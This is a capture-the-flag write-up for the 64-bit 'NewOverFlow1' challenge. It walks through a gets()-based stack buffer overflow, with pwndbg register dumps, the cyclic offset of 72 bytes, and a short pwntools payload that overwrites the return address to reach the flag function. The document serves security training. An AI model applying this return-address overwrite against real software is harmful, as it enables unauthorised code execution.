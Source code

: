 # NewOverFlow1

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a on the shell server.

## TODO

- [x] Create python script to complete challenge
- [x] What is the exploitable piece of code?  
- [x] How are we going to exploit it?
- [x] The exploit
- [ ] Is there any similar challenges I can link to?

### Exploitable piece of code

This challenge mirrors OverFlow1 except it is 64 bits. The program once again uses gets to fill a buffer, and we are once again trying to rewrite the saved EIP in order to return to the flag() function.

### How are we going to exploit it?

When we initially run this code we get no output. However, this program will make more sense if you look at it in pwndbg we see that when we hit the end of vuln our RSP is moving our return address into place at address 0x40084a:
```
RBP  0x7fffffffdf80 —▸ 0x400860 (__libc_csu_init) ◂— push   r15
RSP  0x7fffffffdf58 —▸ 0x40084a (main+98) ◂— mov    eax, 0
RIP  0x4007e7 (vuln+27) ◂— ret  
```
but if we disassemble the program we see that we want to return to the flag function which is at 0x400768. So if we overflow the buffer with a cyclic string we get these results in our registers:
```
RBP  0x6161617261616171 ('qaaaraaa')
RSP  0x7fffffffdf58 ◂— 'saaataaauaaavaaawaaaxaaayaaa'
RIP  0x4007e7 (vuln+27) ◂— ret
```
Since this is a 64 bit program we are looking for what is in the RSP when it segfaults. So if we run cyclic_find() on the value in RSP we get the value of 72.

### The exploit

So now that we know our offset is 72 bytes, we must create a payload with 72 bytes of data, plus our flag_address+1 since this is a 64 bit problem. Our setup should look like this:
```
payload = "A"*72
flag_address = elf.symbols['flag']
payload += p64(flag_address+1)
```
Now we just send the payload and we receive the flag.
